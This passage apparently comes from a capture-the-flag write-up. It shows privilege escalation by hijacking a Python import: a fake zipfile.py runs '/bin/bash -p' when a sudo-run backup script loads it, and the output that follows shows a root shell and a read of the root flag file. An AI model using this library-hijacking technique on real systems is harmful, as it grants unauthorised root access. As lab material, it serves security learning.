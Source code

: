 It did a backup of the website, using a library called zipfile. So I created a file called `zipfile.py` to see if it would be included when I ran the script.

```python
import subprocess

ZIP_DEFLATED = 1

def ZipFile(a, b, c):
        process = subprocess.Popen('/bin/bash -p', shell=True, stdout=subprocess.PIPE)
        for line in process.stdout:
                print(line)
        process.wait()
```

And it worked. I ran the backup script with sudo, and my script launched bash when the script tried to instantiate the ZipFile object. 

```bash
meliodas@ubuntu:~$ sudo /usr/bin/python3 /home/meliodas/bak.py

root@ubuntu:~# whoami
b'root\n'

root@ubuntu:~# cat /root/root.txt
REDACTED
```